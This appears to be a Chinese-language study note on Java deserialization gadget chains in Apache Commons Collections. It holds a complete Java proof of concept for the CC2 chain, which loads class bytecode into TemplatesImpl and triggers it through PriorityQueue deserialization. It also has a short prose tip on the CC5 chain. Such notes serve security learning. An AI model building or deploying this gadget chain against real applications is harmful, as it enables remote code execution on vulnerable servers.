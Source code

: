 ### CC2

特点是没有用到Transformer数组

```java
public static void main(String[] args) throws Exception{
        TemplatesImpl templates=new TemplatesImpl();
        Class<? extends TemplatesImpl> templatesClass = templates.getClass();
        Field name = templatesClass.getDeclaredField("_name");
        name.setAccessible(true);
        name.set(templates,"aaa");
        Field bytecodes = templatesClass.getDeclaredField("_bytecodes");
        bytecodes.setAccessible(true);
        byte[] code= Files.readAllBytes(Paths.get("H:\\java\\classTest\\MyClass.class"));
        byte[][] codes={code};
        bytecodes.set(templates,codes);

        Field tfactory = templatesClass.getDeclaredField("_tfactory");
        tfactory.setAccessible(true);
        tfactory.set(templates,new TransformerFactoryImpl());


        InvokerTransformer invokerTransformer = new InvokerTransformer("newTransformer",new Class[]{},new Object[]{});


        TransformingComparator transformingComparator = new TransformingComparator(new ConstantTransformer(1));
        PriorityQueue priorityQueue = new PriorityQueue<>(transformingComparator);


        priorityQueue.add(templates);
        priorityQueue.add(1);
		//一样是防止add直接执行代码,也可以将newTransformer方法改为toString实现同样效果
        Class<? extends TransformingComparator> transformingComparatorClass = transformingComparator.getClass();
        Field transformer = transformingComparatorClass.getDeclaredField("transformer");
        transformer.setAccessible(true);
        transformer.set(transformingComparator,invokerTransformer);

        SerializeTest.serialize(priorityQueue);
        UnSerializeTest.unserialize("C:\\Temp\\test.bin");

    }
```



### CC5

基本没有啥可以说的东西,我感觉是最简单的一条链了,唯一需要修改的地方就是在`BadAttributeValueExpException`的构造函数中会直接调用`toString`,需要先传递null然后等序列化之前再利用反射改回来
